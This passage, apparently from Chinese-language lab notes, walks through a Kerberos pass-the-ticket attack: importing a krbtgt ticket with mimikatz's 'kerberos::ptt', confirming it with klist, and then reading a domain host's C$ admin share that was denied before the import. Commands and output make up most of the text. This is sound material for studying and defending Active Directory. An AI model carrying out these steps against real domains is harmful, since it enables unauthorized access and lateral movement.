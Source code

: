 3. 导入票据
    
    可以看票据名称来选择导入
    
    ```python
    kerberos::ptt 票据文件
    kerberos::ptt C:\Users\Administrator\Desktop\mimikatz-master\mimikatz-master\x64\[0;483ec]-2-0-60a00000-Administrator@krbtgt-SUNSET.COM.kirbi
    ```
    
    ![image.png](image%209.png)
    
4. 验证导入是否成功
    
    ```python
    C:\Users\Administrator>klist
    
    当前登录 ID 是 0:0x5e7f4
    
    缓存的票证: (1)
    
    #0>     客户端: Administrator @ SUNSET.COM
            服务器: krbtgt/SUNSET.COM @ SUNSET.COM
            Kerberos 票证加密类型: RSADSI RC4-HMAC(NT)
            票证标志 0x60a00000 -> forwardable forwarded renewable pre_authent
            开始时间: 11/21/2024 19:28:08 (本地)
            结束时间:   11/22/2024 5:28:00 (本地)
            续订时间: 11/28/2024 19:28:00 (本地)
            会话密钥类型: RSADSI RC4-HMAC(NT)
    ```
    
    klist可以显示导入的票据了
    
5. 访问IPC
    - 导入前，使用域名是因为让它走`kerberos`协议，因为`kerberos` 认证依赖于域名解析（DNS）来确定服务主体名称，没禁用`ntlm`的话使用IP会默认走`ntlm`
        
        ```python
        C:\Users\Administrator>dir \\a.sunset.com\c$
        登录失败: 未知的用户名或错误密码。
        ```
        
    - 导入后
        
        ```python
        C:\Users\Administrator>dir \\a.sunset.com\c$
         驱动器 \\a.sunset.com\c$ 中的卷没有标签。
         卷的序列号是 F80A-E907
        
         \\a.sunset.com\c$ 的目录
        
        2009/07/14  11:20    <DIR>          PerfLogs
        2024/11/20  18:28    <DIR>          Program Files
        2024/11/20  18:28    <DIR>          Program Files (x86)
        2024/11/18  14:53    <DIR>          Users
        2024/11/20  18:40    <DIR>          Windows
                       0 个文件              0 字节
                       5 个目录 29,652,508,672 可用字节
        ```
        